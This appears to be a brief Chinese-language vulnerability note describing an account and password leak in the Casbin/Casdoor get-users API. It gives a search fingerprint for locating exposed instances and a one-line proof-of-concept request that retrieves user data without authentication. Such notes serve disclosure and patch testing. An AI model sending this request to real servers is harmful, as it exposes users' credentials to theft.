

# Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>Casbin</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Casdoor"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```javascript
/api/get-users?p=123&pageSize=123
```



